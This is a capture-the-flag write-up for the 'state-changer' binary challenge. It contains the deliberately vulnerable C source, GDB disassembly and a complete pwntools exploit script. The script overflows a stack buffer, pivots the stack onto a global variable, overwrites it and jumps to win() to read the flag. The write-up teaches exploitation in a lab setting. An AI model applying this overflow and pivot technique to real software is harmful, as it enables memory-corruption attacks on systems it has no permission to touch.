

# A quick writeup for state-changer

This explains the challenge's vulnerability as well as the exploitation script to accompany it.

## Stack pivoting 

The problem lies in the fact that we need to get around the win condition in order to read out the contents of the flag, so we need to pivot our stack to write and manipulate the win condition.

There's no need to do anything extra aside from a little bit of jumping.
PIE is disabled, so addresses will be consistent and static across machines.

For those who are new to buffer overflows, check here
[https://ctf101.org/binary-exploitation/buffer-overflow/](https://ctf101.org/binary-exploitation/buffer-overflow/)

Here is the code for the challenge
```c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}

```

The `vuln` function and the global `buf` function are our gateway for winning. When we overflow the `vuln` buffer, we should find a way to change the `state` defined in the `win` function.

Take a look at this GDB disassembly of vuln

```gdb
   0x00000000004012b5 <+0>:	endbr64
   0x00000000004012b9 <+4>:	push   rbp
   0x00000000004012ba <+5>:	mov    rbp,rsp
   0x00000000004012bd <+8>:	sub    rsp,0x20
   0x00000000004012c1 <+12>:	lea    rax,[rip+0xd80]        # 0x402048
   0x00000000004012c8 <+19>:	mov    rdi,rax
   0x00000000004012cb <+22>:	call   0x401090 <puts@plt>
   0x00000000004012d0 <+27>:	mov    rdx,QWORD PTR [rip+0x2d59]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x00000000004012d7 <+34>:	lea    rax,[rbp-0x20] # <<<---- interesting
   0x00000000004012db <+38>:	mov    esi,0x30
   0x00000000004012e0 <+43>:	mov    rdi,rax
   0x00000000004012e3 <+46>:	call   0x4010c0 <fgets@plt>
   0x00000000004012e8 <+51>:	nop
   0x00000000004012e9 <+52>:	leave
   0x00000000004012ea <+53>:	ret
```

If we overflow this `vuln` function to jump to itself, we can perform a stack pivot due to the instruction at `vuln+34`.

For our first input we can overwrite the return address to jump to `vuln`+27 so that we can get another input + our stack pivot.

Taking a look at the local variables of this binary, the globally defined `state` and `buf` are available by address in the process. 


```gdb
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x000000000040038c  __abi_tag
... snipped ...
0x0000000000404040  buf
0x0000000000404540  state
0x0000000000404560  errorMsg
... snipped ...
```


Because all functions and variables have static addresses, we can do the following to exploit this chall.

1. Return to the same "vuln" function on overflow and 
stack pivot to the approximate position of the address of `state"

2. On the second rerun of `fgets` in vuln, overwrite the `state` variable to the correct `0xf1eeee2d` value, overflowing to the `win` function at the end.

## Visual Understanding



I use python and pwnlibs to automate this process. Note that minor adjustments were made to the pivot address so that we can deal with memory alignment issues with the stack when overwrite the `state` value.


```python
from pwn import *

context.arch = "amd64"

conn = process("./chall")
#conn = remote("chall.lac.tf", 31593)

e = ELF("chall")

padding=b"AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa"
padding=padding[:-8]
win=e.sym["win"]
vuln=e.sym["vuln"]

#padding+=p64(0x40453f+0x20)
padding+=p64(e.sym["state"]+0x1f) # stack alignment
padding+=p64(vuln+27) 
print(padding)
input()

conn.send(padding)

second_padding =p64(0xf1eeee2d)
second_padding+=p64(0x12345678)
second_padding+=p64(0x12345678)
second_padding+=p64(0x12345678)
second_padding+=p64(0x12345678)[:-1] # stack alignment
second_padding+=p64(win)
conn.sendline(second_padding)

print(conn.recvall())

```


